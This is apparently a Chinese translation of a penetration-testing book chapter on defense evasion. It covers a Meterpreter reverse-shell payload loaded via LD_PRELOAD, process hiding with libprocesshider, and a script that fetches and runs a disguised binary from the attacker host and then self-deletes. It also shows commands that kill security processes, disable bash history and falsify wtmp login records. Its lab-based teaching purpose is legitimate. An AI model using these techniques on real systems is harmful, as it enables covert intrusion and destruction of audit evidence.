

<hgroup>

# 12 防御规避与数据外泄

</hgroup>


你对目标采取的行动将不可避免地留下痕迹。在本章中，你将了解在生产环境中常见的防御机制，以及如何在不被检测的情况下从系统中提取数据的方法。你将探索隐藏恶意进程和命令、禁用安全工具、加密和编码数据以及泄露敏感信息的方式。

## 防御控制

在渗透测试过程中，你可能会遇到多种类型的安全控制。大多数部署在端点上的防御工具从黑盒视角来看很难被检测到，直到你攻破主机后才会知道它们的存在。不过也有例外。例如，如果某个代理在受到攻击时采取行动，比如阻止攻击者，你可能会察觉到该主机正在进行自我保护。

防御安全领域非常广泛，因此要涵盖你可能遇到的每一种工具，可能需要一本完整的书。然而，以下章节将更详细地讨论一些关键的控制类型。

### 端点安全

端点安全技术旨在为防御者提供遥测数据，识别服务器上的异常活动，并（理想情况下）防止攻击者成功。生产环境中可能使用的工具包括以下内容：

**扩展检测与响应**

也称为端点检测与响应（EDR），当只关注端点时，*扩展*检测与响应（XDR）解决方案试图从任何能够生成日志事件的设备收集数据，如服务器、防火墙、云服务和进出邮件。XDR 解决方案通过关联收集的数据，为防御者提供关于网络上发生的有趣事件的理解，并拼接出有关恶意操作横向传播的故事。在服务器上，EDR 和 XDR 解决方案通常会实现软件代理，收集信息并根据各种启发式方法阻止恶意软件的运行。它们还为防御者提供了向监控主机发送命令并响应事件的能力。

**数据丢失防护**

数据丢失防护（DLP）系统对静态和传输中的数据进行分类，然后根据系统所有者预定义的策略采取措施防止数据泄露。DLP 系统可以在主机和网络层面工作，例如监控流出系统的流量或监控从组织发送的电子邮件。其目标是确保敏感数据在未授权的情况下不会离开组织的边界。

**传统的杀毒系统**

传统的防病毒解决方案仍然被广泛使用，通常是出于合规性要求。这些工具，例如 Linux 的 ClamAV，扫描文件系统中的已知恶意文件哈希，并将匹配哈希的文件隔离。它们依赖于最新哈希数据库的存在来识别现代威胁。如今，大多数基于签名的防病毒扫描都作为 EDR 和 XDR 解决方案中的模块存在。

**文件完整性监控**

文件完整性监控（FIM）系统监控敏感的文件系统路径，检测如文件写入或删除等变化，并防止未经授权的修改。例如，在第八章中，你了解了*/etc*目录承载配置文件，部署系统后这些文件不应频繁更改。FIM 可以检测到如*/etc/passwd*和*/etc/shadow*等文件的修改，这可能表明攻击者正在尝试在系统中植入后门。基于开源的 FIM 解决方案包括 Open Source Tripwire、Advanced Intrusion Detection Environment（AIDE）和 OSSEC。

**扩展伯克利数据包过滤器**

扩展伯克利数据包过滤器（eBPF）内核仪器软件允许程序员在内核中安全地编写沙箱代码。Linux 内核提供了一个实现诸如安全监控、跟踪和日志记录等任务的逻辑位置，但在 eBPF 出现之前，进行这些操作会带来稳定性风险。在安全环境下，eBPF 可以识别并减轻恶意活动，接入各种系统机制，并为防御者提供更大的系统可见性。

**安全增强 Linux 和 AppArmor**

安全增强 Linux（SELinux）是一种用于在 Linux 系统上强制实施强制访问控制的安全机制。最初由美国国家安全局开发，SELinux 策略可以限制谁和什么可以访问受保护系统上的文件、进程和应用程序。AppArmor 是一个 Linux 安全模块，它通过对应用程序应用安全配置文件来防止应用程序采取潜在有害的操作。这些安全配置文件可以规定应用程序的允许操作、其能力，以及在应用程序违反政策时 AppArmor 需要采取的任何行动。

**基于主机的防火墙**

公司通常仅依赖边界处的一个网络防火墙，允许网络内的所有终端设备彼此自由通信。基于主机的防火墙可以帮助组织增加横向移动的难度，并隔离可能已被攻陷的机器。正如其名称所示，这些防火墙在本地运行，通过使用预定义的规则表来过滤进出主机的未经授权的流量。Linux 提供了多种防火墙，如 iptables、firewalld、nftables 和 Uncomplicated Firewall（UFW）。

### 应用程序和 API 安全

现代应用程序和 API 需要防范各种攻击，如数据提取和拒绝服务攻击。因此，企业通常依赖第三方应用程序为其应用提供全方位的保护：

**Web 应用防火墙**

Web 应用防火墙（WAF）是基于软件或硬件的防火墙，工作在 OSI 模型的第 7 层（应用层）。如今，它们通常是强大的基于云的服务，能够检查进入应用程序的请求和响应。WAF 通过签名和基于行为的启发式方法来识别恶意流量；它们还使用威胁情报数据来识别恶意行为者，通常是基于源 IP 地址或浏览器指纹。

**Web 应用与 API 安全**

Web 应用与 API 安全（WAAS）解决方案是传统 Web 应用防火墙的扩展，通过检查组织内部流量（如微服务之间的通信）来解决组织生态系统中的漏洞。WAAS 解决方案通常部署在服务器上，并考虑应用程序及其运行时环境。

**运行时应用自我保护**

应用防火墙不一定了解它们所保护的应用程序。运行时应用自我保护（RASP）解决方案通过跟踪应用程序在处理请求时的行为来解决这个问题。例如，如果 SQL 注入攻击成功绕过了位于边界的 Web 应用防火墙，受攻击的应用程序可能会将 SQL 命令发送到数据库，并返回包含大量个人数据的响应。由于 RASP 解决方案能洞察代码，它们可以识别这些攻击并将其阻止。

### 网络安全

企业常常忽视网络安全，因为他们通常只防范来自外部互联网的恶意流量，而忽视了对内部流量的同等保护。以下解决方案可以填补这些空白：

**入侵检测与防御系统**

入侵检测与防御系统（IDS/IPS）是基于流量模式观察网络入侵迹象的软件或硬件设备。这些系统通常使用已知的恶意特征码以及其他启发式方法，一旦它们检测到恶意负载，便会发出警报或完全阻止流量。一些常见的 IDS 和 IPS 系统包括 Snort、Zeek、Suricata 和 OSSEC。

**网络防火墙**

网络防火墙在网络架构中的关键节点检查进出流量，过滤来自互联网和内部网络之间的流量。我们通常称现代防火墙为*下一代防火墙*，因为它们具备了更多的附加功能，如 URL 过滤、深度数据包检查、恶意软件检测、内置威胁情报和协议或应用程序识别。

### 蜂窝陷阱

Honeypots（蜜罐）被设计成看起来像真实的生产系统，但其真正目的是检测那些试图突破网络或在成功入侵后横向移动的威胁行为者。蜜罐还可以收集威胁情报。通过引诱攻击者将特定系统作为目标，防御者可以了解他们当前的战术和技术。这些信息可以帮助加强安全控制并聚焦可能的弱点区域。

### 日志收集与聚合

日志是防御者的重要资产，因为它们提供了入侵的证据，既包括事件发生时的证据，也包括事后的证据。系统几乎可以从任何地方收集日志，包括主机、打印机、网络交换机、防火墙和应用程序。端点通常将日志传输到集中式安全信息和事件管理系统，防御者可以通过关联事件来识别异常。用于安全目的的日志收集机制示例包括 Auditd、Fluent Bit 和 syslog 客户端。这些组件的日志通常集中在 OSSEC 和 Wazuh 等应用程序中。

表格 12-1 列出了几个主机级控制及其独特特征，如其进程名称以及它们存储运行时文件的位置。

表格 12-1：安全控制及其标识符

| 名称 | 类别 | 标识符类型 | 标识符 |
| --- | --- | --- | --- |
| Auditd | 安全审计日志记录 | 进程名称 | auditd |
| OSSEC | 入侵检测 | 进程名称 | ossec |

| syslog | 事件数据日志协议 | 进程名称 | syslog rsyslog |

syslog-ng |

| iptables | 基于主机的防火墙 | 进程名称 | iptables |
| --- | --- | --- | --- |
| UFW | 基于主机的防火墙 | 进程名称 | ufw |
| Open Source Tripwire | 文件完整性监控 | 目录 | /etc/tripwire |
| AIDE | 文件完整性监控 | 目录 | /etc/aide |
| AppArmor | 应用程序安全分析 | 目录 | /etc/apparmor.d |
| chkrootkit | Rootkit 扫描工具 | 目录 | /etc/chkrootkit |
| SELinux | 强制访问控制执行 | 目录 | /etc/selinux |
| Fluent Bit | 日志收集 | 目录 | /etc/fluent-bit |
| Rootkit Hunter | Rootkit 扫描工具 | 文件 | /etc/rkhunter.conf |

本表格主要关注开源端点安全控制。我们将在练习 26 中使用它。

练习 26：审计主机中的地雷

假设你需要编写一个脚本，将恶意代码从互联网下载到受感染的机器上。在脚本执行下载之前，它应该了解受感染主机的运行时环境，并在发现任何安全工具时停止执行。

在这个练习中，你将实现这样的一个脚本。表 12-1 提供了你可以用来识别安全工具的预定义启发式。例如，Tripwire 安装时会在*/etc/tripwire*下创建一个目录，而 syslog 服务器通常使用特定的进程名称运行，如*rsyslog*或*syslog-ng*。从高层次来看，你的脚本应该能够做到以下几点：

1.  检查环境中的防御性安全工具。

2.  如果发现主机没有保护，下载恶意软件。你可以使用 EICAR 文件，例如位于*[`secure.eicar.org/eicar.com.txt`](https://secure.eicar.org/eicar.com.txt)*的文件，来模拟下载恶意文件。*EICAR 文件*安全地触发安全检测工具，不涉及可能有害的真实恶意文件。

3.  如果主机受保护，生成报告列出已识别的工具。

你可以在本书的 GitHub 仓库中找到一个示例解决方案，*exercise_solution.sh*。为了进一步深入这个练习，可以对基于 Linux 的安全工具进行更多的研究，并扩大你的启发式表格。你还可以超越仅仅根据进程名称、文件和目录来检测工具。例如，尝试检查已加载的内核模块（使用 lsmod）或已安装的包（使用 dpkg）。

> 注意

*下载本章的脚本*，请访问[`github.com/dolevf/Black-Hat-Bash/blob/master/ch12`](https://github.com/dolevf/Black-Hat-Bash/blob/master/ch12)。

## 隐藏恶意进程

防御工具通常通过系统上运行的异常进程来识别恶意活动。在本节中，我们将考虑三种方法来使恶意进程保持隐匿：将恶意共享库预加载到一个无害进程中、隐藏进程的执行、以及将进程名称更改为伪装成合法进程。

### 库预加载

让我们使用 LD_PRELOAD 来预加载一个恶意共享库。这个环境变量接受一个用户指定的共享对象列表，在所有其他对象之前加载。我们将在 Kali 上设置一个监听器，并在*p-jumpbox-01*（172.16.10.13）上的进程上执行共享库预加载。

作为我们的恶意代码，我们将使用 Metasploit 的*Meterpreter*有效载荷，这是 Metasploit 框架的一部分，能够为攻击者提供一个交互式 shell。在 Kali 上，运行以下命令来生成一个 Meterpreter 共享对象：

```
$ **msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.16.10.1 LPORT=2222 -f**
**elf-so > meterpreter.so** 
```

这个命令使用了 reverse_tcp 有效载荷，它将在本地主机地址 172.16.10.1（Kali 的地址）上绑定，在本地端口 2222/TCP 上，使用 elf-so 格式。然后，它会将输出重定向到*meterpreter.so*。运行 file 命令查看该文件的格式：

```
$ **file meterpreter.so**

meterpreter.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV),
dynamically linked, stripped 
```

然后，你可以使用 scp 将此文件上传到*p-jumpbox-01*机器：

```
$ **scp -O meterpreter.so backup@172.16.10.13:/tmp**
```

这个命令使用了备份用户。记住他们的密码是*backup*。

> 注意

*请注意，系统上运行的任何终端安全防护控制可能会通知安全分析人员 Meterpreter 有效载荷的存在。通常，编写自己的有效载荷往往是确保操作不被发现的更有效方法。*

接下来，在 Kali 上运行 msfconsole 启动 Metasploit，然后设置 TCP 监听器：

```
msf > **use exploit/multi/handler**
msf > **set payload linux/x64/meterpreter/reverse_tcp**
msf > **set LHOST 172.16.10.1**
msf > **set LPORT 2222**
msf > **run** 
```

这个监听器将在我们预加载 Meterpreter 共享对象后建立一个 Meterpreter 会话。

我们希望将 Meterpreter 有效载荷加载到一个看起来无害的进程中。让我们看看 *p-jumpbox-01*（172.16.10.13）上当前运行的进程：

```
$ **ps aux**

USER    PID %CPU %MEM   STAT START   TIME COMMAND
root      1  0.0  0.0   Ss   Nov23   0:00 /bin/sh -c service ssh restart && tail -f /dev/null
**root     17  0.0  0.0   Ss   Nov23   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups**
root     28  0.0  0.0   S    Nov23   0:38 tail -f /dev/null
root  30238  0.0  0.0   Ss   Nov28   0:00 bash
root  37405  100  0.0   R+   03:14   0:00 ps aux 
```

如果你的恶意操作会建立网络连接，建议使用一个蓝队期望看到进行网络活动的进程，例如 SSH 服务器或 Web 服务器。在这种情况下，我们将使用 sshd，并执行 Listing 12-1 中的命令。

```
$ **LD_PRELOAD=/tmp/meterpreter.so ssh**
```

Listing 12-1: 使用 LD_PRELOAD 预加载 Meterpreter

在 Metasploit 中，你应该看到类似以下的输出：

```
[*] Started reverse TCP handler on 172.16.10.1:2222
[*] Sending stage (3045348 bytes) to 172.16.10.13
[*] Meterpreter session 1 opened (172.16.10.1:2222 -> 172.16.10.13:46048)

meterpreter > 
```

现在你已经获得了一个 Meterpreter shell，运行 help 命令查看可用的命令。

### 进程隐藏

隐藏恶意进程的另一种方法是使用 *libprocesshider*，它由 Gianluca Borello 开发。这个工具也使用预加载技术，在加载其他库之前加载自定义的共享库。我们将使用 libprocesshider 来隐藏诸如 ps 之类工具中的进程名称。

在 Kali 上，运行以下命令来克隆 GitHub 仓库：

```
$ **git clone https://github.com/gianlucaborello/libprocesshider**
$ **cd libprocesshider** 
```

接下来，修改 *processhider.c* 脚本，使用你想隐藏的进程名称（而不是脚本默认的 *evil_script.py*）。在这种情况下，我们将其替换为 *sshd*：

```
$ **sed -i s'/evil_script.py/cron/'g processhider.c**
```

接下来，使用 make 命令编译脚本：

```
$ **make**
```

此命令应创建一个名为 *libprocesshider.so* 的文件。将其复制到 *p-jumpbox-01* 机器（172.16.10.13）。接着，使用 *root* 用户将 *libprocesshider.so* 的文件路径添加到 *p-jumpbox-01* 上的 */etc/ld.so.preload* 文件中。添加此行后，变更应立即生效：

```
# **echo /tmp/libprocesshider.so >> /etc/ld.so.preload**
```

再次运行 ps 查看结果：

```
# **ps aux**

USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2752   972 ?        Ss   03:23   0:00 /bin/sh -c service ssh re...
root          29  0.0  0.0   3760  2132 ?        Ss   03:23   0:00 /usr/sbin/cron -P
root          30  0.0  0.0   2684   904 ?        S    03:23   0:00 tail -f /dev/null
root          34  0.0  0.0   4524  3892 pts/0    Ss+  03:23   0:00 bash
backup        68  0.0  0.0   4524  3836 pts/1    Ss   03:26   0:00 -bash
backup       113  0.0  0.0   4524  3748 pts/2    Ss   03:38   0:00 -bash
backup       116  100  0.1   8224  4064 pts/2    R+   03:38   0:00 ps aux 
```

如你所见，sshd 进程已从输出中隐藏。它应该也从其他工具中隐藏，如 top：

```
# **top -n 1**

Tasks:   6 total,   1 running,   5 sleeping,   0 stopped,   0 zombie
%Cpu(s):100.0 us,  0.0 sy,  0.0 ni,  0.0 id,  0.0 wa,  0.0 hi,  0.0 si,  0.0 st
MiB Mem :   3920.9 total,   1333.0 free,   1350.8 used,   1598.0 buff/cache
MiB Swap:   1024.0 total,    681.3 free,    342.7 used.   2570.2 avail Mem

    PID USER      PR  NI    VIRT    RES    SHR S  %CPU  %MEM     TIME+ COMMAND
      1 root      20   0    2752    972    868 S   0.0   0.0   0:00.02 sh
     29 root      20   0    3760   2316   2080 S   0.0   0.1   0:00.00 cron
     30 root      20   0    2684    904    800 S   0.0   0.0   0:00.12 tail
     34 root      20   0    4524   3972   3296 S   0.0   0.1   0:00.19 bash
     68 backup    20   0    4524   3836   3224 S   0.0   0.1   0:00.01 bash
    153 root      20   0    8728   4728   2828 R   0.0   0.1   0:00.01 top 
```

然而，这种方法并不万无一失，因为恶意进程并未完全消失。你仍然可以通过指定 PID 在路径中找到它，路径位于 */proc* 文件系统下：

```
# **cat /proc/17/comm**

sshd 
```

为了进一步隐藏进程，你可以尝试将其伪装起来。

### 进程伪装

*进程伪装* 是指对抗者用来将恶意进程伪装成合法进程的技术总称。例如，他们可能会通过使用难以察觉的拼写错误将其重命名为类似系统进程的名称，如 *corn*，这可能看起来像 *cron*。这种重命名可能绕过使用自定义检测规则来查找特定执行二进制文件名称的终端安全工具。例如，考虑以下警报的伪代码：

```
alert if os_type == "Linux" AND process_name in("ping", "nping", "hping",
"hping2", "hping3", "nc", "ncat", "netcat", "socat") 
```

该警报逻辑旨在捕获任何 Linux 操作系统中名为 ping、netcat 和 socat 的进程。

基于二进制名称的检测规则的问题在于，二进制名称可以更改，因此它们比基于行为的检测或更智能的启发式方法更容易规避。在下一个练习中，你将通过使用规避名称来隐藏进程。

练习 27：旋转进程名称

在本练习中，你将使用随机名称运行一个进程，使其与环境融合，更难被发现。我们将使用一组被方括号括起来的可能进程名称（[]），这些名称通常表示进程没有与之关联的命令行，像*/proc/PID/cmdline*中的那些。内核线程就是这类进程的例子。

清单 12-2 展示了在 Kali 上运行的带方括号的进程名称示例。使用 grep 和正则表达式提取此文本。

```
$ **ps aux | grep -o '\[.*]' | head -8**

[kthreadd]
[rcu_gp]
[rcu_par_gp]
[slub_flushwq]
[netns]
[mm_percpu_wq]
[rcu_tasks_kthread]
[rcu_tasks_rude_kthread] 
```

清单 12-2：列出带方括号的进程

通过使用方括号，你可以让你的进程看起来更合法，更难以被发现，因为防御者可能会认为它是一个正常的系统进程，在检查进程列表时跳过它。

要开始，请考虑清单 12-3 中的脚本。我们将一起解读它。

binary_name _rotation.sh

```
#!/bin/bash
WORK_DIR="/tmp"
❶ RANDOM_BIN_NAMES=("[cpuhp/0]" "[khungtaskd]" "[blkcg_punt_biio]"
"[ipv8_addrconf]" "[mlb]" "[kstrrp]" "[neetns]" "[rcu_gb]")
❷ RANDOMIZE=$((RANDOM % 7))
❸ BIN_FILE="${RANDOM_BIN_NAMES[${RANDOMIZE}]}"
FULL_BIN_PATH="${WORK_DIR}/${BIN_FILE}"

self_removal(){
  shred -u -- "$(basename "$0")" && rm -f -- "${FULL_BIN_PATH}"
}

❹ if command -v curl 1> /dev/null; then
❺ curl -s "http://172.16.10.1:8080/system_sleep" -o "${FULL_BIN_PATH}"
  if [[-s "${FULL_BIN_PATH}"]]; then
    chmod +x "${FULL_BIN_PATH}"
  ❻ export PATH="${WORK_DIR}:${PATH}"
  ❼ nohup "${BIN_FILE}" &> /dev/null &
  fi
fi

8 trap self_removal EXIT 
```

清单 12-3：通过旋转进程名称进行进程伪装

在❶处，我们定义了 RANDOM_BIN_NAMES 数组，其中包含被方括号括起来的任意进程名称。这些名称有微小的变化，使它们更难与常见的系统进程区分（例如 ipv8_addrconf 而不是 ipv6_addrconf）。该数组代表脚本将从中选择的可能进程名称列表。

然后，我们使用 RANDOM 环境变量和取模（%）操作符❷生成一个 0 到 7 之间的随机数。我们将选定的值作为数组索引号来选择二进制名称❸。例如，如果随机数是 2，我们将通过使用 RANDOM_BIN_NAMES[2]从数组中选择名称。

接下来，我们检查 curl 命令是否可用❹，如果不可用，脚本将不会继续执行。在❺处，我们从 Kali 下载一个名为 system_sleep 的二进制文件，并将其保存到*/tmp*。我们修改 PATH 环境变量，包含当前工作目录（由 WORK_DIR 定义，*/tmp*）作为搜索路径中的第一个目录❻，然后执行该二进制文件并将其送入后台❼。出于测试目的，该二进制文件仅执行 sleep 100。

最后，我们在❽处使用 sigspec EXIT 来调用 self_removal()函数。此函数确保在脚本退出后通过 shred -u 命令执行自删除操作。EXIT 信号确保即使脚本中发生任何错误，文件也会被删除。

在运行此脚本之前，确保从 Kali 机器将 system_sleep 进程对 172.16.10.0/24 网络开放。以下命令编译 system_sleep：

```
$ **cd ~/Black-Hat-Bash/ch12**
$ **gcc system_sleep.c -o system_sleep**
$ **ls -ld system_sleep**

-rwxrwxr-x 1 kali 15968 Dec  3 14:20 system_sleep 
```

接下来，从相同的目录启动 HTTP 服务器：

```
$ **python3 -m http.server 8080**
```

将脚本复制到 *p-jumpbox-01*（172.16.10.13）或 *p-web-01*（172.16.10.10）上，查看脚本运行效果。当你执行它时，你应该在进程列表中看到类似以下的输出：

```
$ **bash binary_name_rotation.sh**
$ **ps aux**

USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   2752   972 ?        Ss   Nov30   0:00 /bin/sh -c service ssh re...
root          17  0.0  0.1  14924  4716 ?        Ss   Nov30   0:00 sshd: /usr/sbin/sshd [lis...
root          29  0.0  0.0   3760  2316 ?        Ss   Nov30   0:03 /usr/sbin/cron -P
root          30  0.0  0.0   2684   904 ?        S    Nov30   0:23 tail -f /dev/null
root       28050  0.0  0.0   4612  3760 pts/1    Ss   17:49   0:00 bash
**root       28772  0.0  0.0   2484  1352 pts/1    S    19:25   0:00 [kstrrp]**
root       28775  0.0  0.0   2732   860 pts/1    S    19:25   0:00 sh -c sleep 100 
```

你可以通过添加检测所执行的发行版的逻辑来扩展这个脚本，然后选择该发行版上常见的进程名。

## 在共享内存中放置文件

*/dev/shm* 目录提供共享内存，供进程间交换数据。这些共享内存对象会一直存在，直到系统关机或进程取消映射，并且它们面临与 第八章 中讨论的其他共享挂载相同的安全风险。

> 注意

*以下命令在实验环境中不受支持，但可以在你的 Kali 虚拟机中进行测试。*

通常，系统通过使用与安全相关的标志挂载 */dev/shm* 以防止可能的滥用。列表 12-4 中的命令显示了一个带有 noexec 标志的 */dev/shm* 挂载的示例。

```
$ **mount | grep "/dev/shm"**

shm on /dev/shm type tmpfs (rw,**nosuid,nodev,noexec**,relatime,size=65536k,inode64) 
```

列表 12-4：列出 /dev/shm 挂载标志

你也可以直接从 */proc/self/mountinfo* 文件中读取此信息（列表 12-5）。

```
$ **grep /dev/shm /proc/self/mountinfo**

964 959 0:104 / /dev/shm rw,nosuid,nodev,noexec,relatime - tmpfs shm rw,size=65536k,inode64 
```

列表 12-5：通过 /proc 列出挂载信息

如你所见，默认情况下，*/dev/shm* 通常是使用 noexec 选项挂载的，这不允许在该目录中执行二进制文件。如果你想在此处放置并执行一个二进制文件，你需要重新挂载 */dev/shm*，这需要 root 权限。你可以使用 `mount -o remount` 命令实现，如 列表 12-6 所示。

```
# **mount -o "remount,$(mount | grep shm | grep -oP '\(\K[^\)]+' | sed** **s'/noexec/exec/')" /dev/shm**
```

列表 12-6：使用自定义标志重新挂载 /dev/shm

你已经保留了现有的挂载选项，但将 noexec 与 exec 交换了。

## 禁用运行时安全控制

如果你已经成功攻破了系统的 root 账户，你可以禁用安全控制。然而，需注意的是，停止服务很可能会触发警报。在本节中，我们将介绍几种停止服务的方法。

要检查服务的状态，使用带有 --status-all 选项的 `service` 命令（列表 12-7）。

```
# **service --status-all**

 [-]  atd
 [+]  cron
 [-]  dbus
 [?]  hwclock.sh
 [-]  postfix
 [-]  procps
 [+]  ssh 
```

列表 12-7：列出可用服务

[?] 符号表示服务状态未知， [+] 表示服务正在运行， [-] 表示服务已停止。

要停止一个服务，运行 `service servicename stop` 命令（列表 12-8）。

```
# **service atd stop**
```

列表 12-8：停止服务

在 第十章 中，我们提到基于 systemd 的系统可以使用 systemctl 命令来控制服务。在 Kali 上，使用 列表 12-9 中的命令列出可用的服务。

```
# **systemctl list-units --type=service**

  UNIT                        LOAD   ACTIVE SUB     DESCRIPTION
  atd.service                 loaded active running Deferred execution scheduler
  colord.service              loaded active running Manage, install and generate color profiles
  console-setup.service       loaded active exited  Set console font and keymap
  containerd.service          loaded active running containerd container runtime 
```

列表 12-9：使用 systemctl 列出服务

要停止一个服务，运行 `systemctl stop servicename` 命令，如 列表 12-10 所示。

```
# **systemctl stop cron**
```

列表 12-10：使用 systemctl 停止服务

请注意，有些服务被配置为在启动时运行，也就是说每当系统重启时，它们会自动启动。你可以通过向 systemctl 传递 disable 命令来尝试禁用此行为（示例 12-11）。

```
# **systemctl disable atd**
```

示例 12-11：使用 systemctl 禁用服务

在某些系统中，如基于 Red Hat 的 CentOS 或旧版本的 Red Hat Enterprise Linux，你可能需要使用 chkconfig 命令来禁用服务在启动时自动启动（示例 12-12）。

```
# **chkconfig atd off**
```

示例 12-12：使用 chkconfig 禁用服务

操作安全工具进程会引起怀疑，并可能启动事件调查。与其依赖特定工具来终止进程，不如迭代感兴趣的进程名称，并对 PID 执行 kill 命令（示例 12-13）。

```
$ **for pid in $(ps -ef | grep -e "iptables" -e "cron" -e "syslog" |**
**awk '{print $2}'); do kill -9 "${pid}"; done** 
```

示例 12-13：使用 for 循环终止一系列进程

请注意，这种方法并不优雅，可能会导致不良结果。使用时请谨慎。

## 操作历史记录

在前几章中，我们讨论了每个用户主目录中的*.bash_history*文件，该文件包含本地用户执行的命令。通过禁用此行为，攻击者可以隐藏其在目标系统上的活动。bash shell 具有一些环境变量，用于控制历史文件中命令执行跟踪的行为：

HISTSIZE 确定可以缓存到内存中的命令数量。

HISTFILE 确定历史文件在文件系统中的路径（例如，*/home/user/.bash_history*）。

HISTFILESIZE 确定*.bash_history*文件可以在磁盘上存储的命令数量。

HISTCONTROL 通过使用冒号（:）分隔的多个值来控制命令是否保存到历史列表中。值 ignorespace 会将以空格字符开头的行排除在历史列表之外，ignoredups 会防止保存与前一个条目匹配的行，而 ignoreboth 则结合了 ignorespace 和 ignoredups 两者的功能。eraseups 值会在保存当前行之前，从历史文件中删除所有先前出现的该行。

HISTIGNORE 定义命令匹配模式，以便特定命令不会被添加到历史文件中。

如果你为 HISTCONTROL 变量设置了 ignorespace 值，可以在命令前加一个空格字符，从而使其不被记录到历史文件中（示例 12-14）。

```
$ **export HISTCONTROL=ignorespace**
$  **echo hello world  # echo is prepended with a space.**

hello world
$ **history | tail -5**

38  ps aux
39  clear
40  history | tail -5
41  export HISTCONTROL=ignorespace
42  history | tail -5 
```

示例 12-14：通过在命令前加一个空格来隐藏该命令在历史文件中

要清除当前用户的命令历史记录，请运行示例 12-15 中的命令。

```
$ **history -c && history -w**
```

示例 12-15：清除历史记录

history -c 命令会清除历史记录，而 -w 选项则会将当前的历史记录写入历史文件。

要禁用当前用户的命令历史跟踪，请使用示例 12-16 中的命令。这些只会影响当前会话。

```
$ **export HISTSIZE=0 && export HISTFILE=/dev/null**
```

Listing 12-16: 设置当前会话的历史记录大小和文件

要禁用所有会话的命令历史记录跟踪，将这些命令添加到 *~/.bashrc* 文件中。

## 篡改会话元数据

在 第八章 中，我们通过使用 last、lastb、w 和 who 等工具探讨了与连接、断开连接和失败登录会话相关的日志条目。这些命令从通常存储在 */var/log* 和 */var/run* 目录中的日志文件读取。在具有正确权限的情况下，我们可以操作这些文件，试图更改关于会话的信息，如 IP 地址、日期和时间。

例如，我们可以修改日志文件来更改源 IP 地址。在 Kali 中，打开一个终端标签，并以备份用户身份，使用以下命令 SSH 登录到 *p-jumpbox-01* 机器：

```
$ **ssh backup@172.16.10.13**
```

接下来，运行 last 命令查看最后一次连接会话的元数据：

```
$ **last**

backup   pts/1        **172.16.10.1**      Thu Dec  7 03:31    gone - no logout
wtmp begins Thu Dec  7 03:31:28 
```

如你所见，源 IP 地址是 Kali 机器的地址（172.16.10.1）。打开第二个终端，使用 *root* 用户 SSH 登录到 *p-jumpbox-01*：

```
$ **ssh root@172.16.10.13**
```

接下来，运行 xxd 命令以十六进制形式转储 */var/log/wtmp*：

```
# **xxd /var/log/wtmp**

00000000: 0700 0000 3bf3 0000 7074 732f 3100 0000  ....;...pts/1...
00000010: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000020: 0000 0000 0000 0000 7473 2f31 6261 636b  ........ts/1back
00000030: 7570 0000 0000 0000 0000 0000 0000 0000  up..............
00000040: 0000 0000 0000 0000 0000 0000 3137 322e  ............172.
00000050: **3136** 2e31 302e 3100 0000 0000 0000 0000  16.10.1......... 
```

*/var/log/wtmp* 文件结构很脆弱；错误的修改可能会导致文件完全无法读取。使用以下命令，将源 IP 地址从 172.16.10.1 更改为 172.50.10.1，只修改 2 个字节（Listing 12-17）。

```
# **sed -i s'/\x31\x36/\x35\x30/'g /var/log/wtmp**
```

Listing 12-17: 使用 sed 替换十六进制字符

使用备份用户，再次运行 last 命令查看更改：

```
$ **last**

backup   pts/1        **172.50.10.1**      Thu Dec  7 03:31    gone - no logout 
```

更进一步，尝试通过修改 */var/log/btmp* 文件来更改 lastb 命令的输出：

```
$ **lastb**

idontexit ssh:notty    172.16.10.1      Thu Dec  7 03:54 - 03:54  (00:00)
backup    ssh:notty    172.16.10.1      Thu Dec  7 03:30 - 03:30  (00:00) 
```

要查看执行 lastb 时的信息，你需要至少尝试一次使用错误的凭证访问机器。例如，尝试使用不存在的用户 SSH 登录，如 ssh idontexist@172.16.10.13。

## 隐藏数据

企业网络的安全控制尝试保护敏感信息免受未经授权的披露、泄漏或丢失。因此，隐蔽操作通常试图隐藏它们所处理的敏感信息。攻击者可以使用行业标准工具或自定义算法对数据进行编码、模糊处理和加密。

### 编码

*数据编码*是将信息从一种格式转换为另一种格式的过程。数字通信通常使用编码将数据表示为一种能够传输、存储或处理的模式。正如你在本书中所见，bash 提供了内置支持 base64 编码的功能，通过 base64 命令。使用 echo，你可以将字符串通过管道传递给 base64 来获取编码后的版本：

```
$ **echo -n "Secret Data" | base64**

U2VjcmV0IERhdGE= 
```

要解码这些信息，只需将 -d 参数传递给 base64：

```
$ **echo "U2VjcmV0IERhdGE=" | base64 -d**

Secret Data 
```

我们可以使用 bash 对同一字符串进行多次编码。通过多轮编码提供额外的模糊层，可能会让试图恢复原始字符串的人感到困惑。在 Listing 12-18 中，我们对字符串 Hello! 进行了 10 次编码。

```
$ **text="Hello!"**
$ **rounds=10; for i in $(seq ${rounds}); do text="$(echo "${text}" | base64)"; done** 
```

清单 12-18：使用 for 循环执行多轮 base64 编码

要解码字符串，使用相同的编码轮数（清单 12-19）。

```
$ **echo $text**

Vm0wd2QyVkZOVWRXV0doVFYwZDRWRll3Wkc5WFZsbDNXa1JTVjJKR2JETlhhMUpUVmpGYWRHVkdX
bFpOYWtFeFZtMTRZV014WkhWaApSbHBPWVd0RmVGWnNVa2RaVjFKSFZtNUdVd3BpU0VKdldWaHdW
MlZXV25OV2JVWmFWbXh3ZVZSc1duTldkM0JwVW01Q1ZWZFhkRmRYCmJWWnpWMnhXVldKWVVuSlph
